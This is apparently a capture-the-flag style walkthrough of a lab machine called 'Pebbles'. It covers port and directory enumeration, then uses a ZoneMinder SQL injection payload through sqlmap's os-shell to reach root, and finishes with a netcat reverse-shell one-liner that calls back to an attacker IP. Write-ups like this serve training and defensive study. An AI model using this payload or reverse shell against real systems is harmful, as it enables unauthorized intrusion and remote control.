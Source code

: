 # Pebbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.52 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 11:01 +08
Nmap scan report for 192.168.157.52
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3305/tcp open  odette-ftp
8080/tcp open  http-proxy
```

FTP doesn't allow for anonymous connections.

### Web Enum --> SQL Shell

Port 80 shows a login page:

<figure><img src="../../../.gitbook/assets/image (17) (5).png" alt=""><figcaption></figcaption></figure>

Default creds don't work, so I ran a `gobuster` scan while moving on. Port 3305 shows a default Apache page:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Ran a `gobuster` scan on this too while enumerating port 8080, which had Tomcat.

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

Again we have no credentials. The `gobuster` scan revealed there was ZoneMinder on both ports:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.157.52/ -t 100       
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.157.52/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/16 11:03:22 Starting gobuster in directory enumeration mode
===============================================================
/zm                   (Status: 301) [Size: 320] [--> http://192.168.157.52/zm/]
```

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

This version had an SQL Injection exploit:

```
$ searchsploit zoneminder
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZoneMinder 1.24.3 - Remote File Inclusion                  | php/webapps/17593.txt
Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injectio | php/webapps/41239.txt
ZoneMinder 1.32.3 - Cross-Site Scripting                   | php/webapps/47060.txt
ZoneMinder Video Server - packageControl Command Execution | unix/remote/24310.rb
----------------------------------------------------------- ---------------------------------
```

Here's the exploit:

```
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
```

I proxied the request using Burp and passed it to `sqlmap` with the `--os-shell` flag.&#x20;

```http
POST /zm/index.php HTTP/1.1
Host: 192.168.157.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Request: JSON
Content-type: application/x-www-form-urlencoded; charset=utf-8
Content-Length: 223
Origin: http://192.168.157.52:3305
Connection: close
Referer: http://192.168.157.52:3305/zm/
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=ka9o8an3bglpu52fkcghrjvhd6

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

This found the `limit` variable to be vulnerable to SQL Injection and I got a webshell as `root`. We can then get a reverse shell easily after choosing the **64-bit database management option**.

```
os-shell> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.196 3305 >/tmp/f
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>
